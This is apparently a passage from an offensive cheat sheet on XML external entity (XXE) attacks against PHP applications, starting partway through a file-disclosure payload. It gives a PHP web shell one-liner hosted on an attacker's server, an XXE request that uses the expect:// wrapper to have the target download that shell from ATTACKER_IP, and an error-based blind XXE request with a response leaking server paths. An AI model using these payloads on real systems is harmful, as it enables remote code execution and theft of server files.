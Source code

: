 ``` HTTP
  %xxe;
]>
<root>
	<name>a</name>
	<tel>1</tel>
	<email>&joined;</email>    <!-- reference the &joined; entity to print the file content -->
	<message>123</message>
</root>
```
---
## Remote Code Execution
### PHP 
This method requires the PHP `expect` module to be installed and enabled.
* Attacker host
``` bash
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```
* Send the request with payload
``` HTTP
POST /submitDetails.php HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
<!ENTITY email SYSTEM "expect://curl$IFS-O$IFS'ATTACKER_IP/shell.php'">
]>
<root>
	<name>a</name>
	<tel>1</tel>
	<email>&email;</email>
	<message>123</message>
</root>
```
---
## Blind XXE
### Error Based XXE
If the web application displays runtime errors (e.g., PHP errors) and does not have proper exception handling for the XML input
- Request
``` HTTP
POST /error/submitDetails.php HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<root>
<name>a</name>
<tel>1</tel>
<email>&joined;</email>
<message>1</message>
</root>
```
- Response
``` HTTP
HTTP/1.1 200 OK

<br />
<b>Warning</b>:  DOMDocument::loadXML(): Entity 'joined' not defined in Entity, line: 5 in <b>/var/www/html/error/submitDetails.php</b> on line <b>11</b><br />
<br />
<b>Warning</b>:  simplexml_import_dom(): Invalid Nodetype to import in <b>/var/www/html/error/submitDetails.php</b>
```